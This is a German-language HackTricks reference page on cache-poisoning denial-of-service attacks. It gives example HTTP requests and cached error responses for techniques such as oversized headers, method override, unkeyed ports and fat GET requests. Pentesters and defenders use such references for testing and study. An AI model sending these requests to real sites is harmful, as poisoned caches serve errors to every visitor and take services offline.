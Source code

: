 # Cache Poisoning to DoS

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

{% hint style="danger" %}
Auf dieser Seite finden Sie verschiedene Variationen, um zu versuchen, den **Webserver dazu zu bringen, mit Fehlern** auf Anfragen zu reagieren, die **gültig für die Cache-Server sind**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Senden Sie eine Anfrage mit einer Headergröße, die größer ist als die vom Webserver unterstützte, aber kleiner als die vom Cache-Server unterstützte. Der Webserver wird mit einer 400-Antwort antworten, die möglicherweise zwischengespeichert wird:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP-Meta-Zeichen (HMC) & Unerwartete Werte**

Senden Sie einen Header, der einige **schädliche Meta-Zeichen** wie < und > enthält. Damit der Angriff funktioniert, müssen Sie zuerst den Cache umgehen.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Ein schlecht konfiguriertes Header könnte einfach `\:` als Header sein.

Dies könnte auch funktionieren, wenn unerwartete Werte gesendet werden, wie ein unerwartetes Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Einige Websites geben einen Fehlerstatuscode zurück, wenn sie **bestimmte Header i**n der Anfrage sehen, wie mit dem _X-Amz-Website-Location-Redirect: someThing_ Header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Wenn der Server das Ändern der HTTP-Methode mit Headern wie `X-HTTP-Method-Override`, `X-HTTP-Method` oder `X-Method-Override` unterstützt, ist es möglich, eine gültige Seite anzufordern, indem die Methode geändert wird, sodass der Server sie nicht unterstützt und eine fehlerhafte Antwort zwischengespeichert wird:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Wenn der Port im Host-Header in der Antwort reflektiert wird und nicht im Cache-Schlüssel enthalten ist, ist es möglich, ihn auf einen ungenutzten Port umzuleiten:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Wie im folgenden Beispiel wird x nicht zwischengespeichert, sodass ein Angreifer das Verhalten der Umleitungsantwort ausnutzen könnte, um die Umleitung eine URL so groß senden zu lassen, dass sie einen Fehler zurückgibt. Dann erhalten Personen, die versuchen, die URL ohne den nicht zwischengespeicherten x-Schlüssel aufzurufen, die Fehlerantwort:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Normalisierung der Groß- und Kleinschreibung des Host-Headers**

Der Host-Header sollte nicht zwischen Groß- und Kleinschreibung unterscheiden, aber einige Websites erwarten, dass er in Kleinbuchstaben geschrieben ist und geben einen Fehler zurück, wenn dies nicht der Fall ist:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Pfadnormalisierung**

Einige Seiten geben Fehlercodes zurück, wenn Daten URLencode im Pfad gesendet werden, jedoch wird der Cache-Server den Pfad URLdecode und die Antwort für den URLdecoded Pfad speichern:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Einige Cache-Server, wie Cloudflare, oder Webserver, stoppen GET-Anfragen mit einem Body, sodass dies missbraucht werden könnte, um eine ungültige Antwort zu cachen:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referenzen

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos sendest.

</details>
{% endhint %}
